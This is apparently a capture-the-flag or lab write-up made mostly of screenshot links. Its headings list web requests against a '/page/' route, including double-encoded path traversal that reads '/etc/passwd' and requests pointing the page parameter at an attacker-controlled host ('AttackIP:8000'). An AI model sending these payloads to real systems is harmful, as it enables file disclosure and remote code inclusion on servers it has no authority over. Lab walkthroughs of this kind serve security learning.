 <img width="1125" height="154" alt="image" src="https://github.com/user-attachments/assets/94042e18-a9ab-411c-8537-a114df5032c0" />

<br>

<img width="1125" height="465" alt="image" src="https://github.com/user-attachments/assets/fa21dbd7-03e3-4a3c-bb50-1e7e55de66d2" />

<br>
<h2>/page/index.html ... opssss</h2>

<img width="1131" height="66" alt="image" src="https://github.com/user-attachments/assets/370572c8-130d-4f3c-bda0-bc79ac7b7ae1" />

<br>

<img width="1170" height="513" alt="image" src="https://github.com/user-attachments/assets/636ebd73-023c-48c2-89cd-6e4267639412" />

<br>
<br>
<h2>/page/home.html</h2>hs>

<img width="1129" height="471" alt="image" src="https://github.com/user-attachments/assets/f2ef5ecc-429d-40f7-af8a-fe453f92b71a" />

<br>
<br>
<h2>/page/var/www/html/index.php</h2>

<img width="1129" height="54" alt="image" src="https://github.com/user-attachments/assets/399d3dc8-8ebc-4777-91e1-04c6b0429972" />

<br>
<br>
<h2>/page/var/www/html/home.html</h2>

<img width="1129" height="54" alt="image" src="https://github.com/user-attachments/assets/97d410de-09dc-4a05-a224-1e59a5da5eba" />

<br>
<br>
<h2>GET /page/%252f/var/www/html/index.html</h2>

<img width="1171" height="458" alt="image" src="https://github.com/user-attachments/assets/2f4cc1d1-9ad0-479d-b100-163aa5a196f4" />


<br>
<br>
<h2>GET /page/%252f/etc/passwd</h2>

<img width="1124" height="480" alt="image" src="https://github.com/user-attachments/assets/781d2759-14ad-4a32-b330-5147b876f0e1" />

<br>
<br>
<h2>GET /page/http://AttackIP:8000</h2>

<img width="1136" height="478" alt="image" src="https://github.com/user-attachments/assets/2c36d569-5f7a-4ed3-b44d-e0bd59e03d07" />

<br>
<br>
<h2>/page/http:%252f%252fAttackIP:8000</h2>
